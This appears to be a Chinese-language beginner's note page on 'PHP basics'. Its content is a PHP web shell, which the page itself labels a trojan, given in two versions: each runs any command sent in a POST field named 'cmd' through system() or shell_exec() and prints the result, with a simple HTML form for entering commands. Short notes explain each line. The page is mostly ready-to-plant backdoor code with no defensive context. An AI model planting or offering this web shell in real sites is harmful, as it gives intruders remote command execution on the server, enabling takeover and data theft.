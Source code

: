 ```yaml
---
title: PHP基礎
date: 2025-06-02 13:00:14
tags:
---
```



php木馬 (windows)

    <?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cmd'])) {
        $cmd = $_POST['cmd'];
        echo "<pre>";
        system($cmd);
        echo "</pre>";
    }
    ?>

    <form method="post">
        <input type="text" name="cmd" >
        <button type="submit">執行</button>
    </form>


<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>";
    echo shell_exec($cmd);
    echo "</pre>";
}
?>
<form method="post">
    <input type="text" name="cmd" style="width:300px;">
    <button type="submit">執行</button>
</form>

如果是POST 且body有cmd  $cmd=cmd中的值 執行cmd中命令 並透過echo 印出來

    if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cmd'])) 
    $cmd = $_POST['cmd'];
    echo shell_exec($cmd);

輸出<pre></pre> html標籤保留格式，方便顯示 shell 結果

    echo "<pre>";
    echo "</pre>";


包裹住的部分是  後端

    <?php?>

包裹住的地方是前端 method="post" 是方法   submit是執行方法
text 是我輸入的文字 也就是cmd=text


    <form></form>
    <input type="text" name="cmd" style="width:300px;">

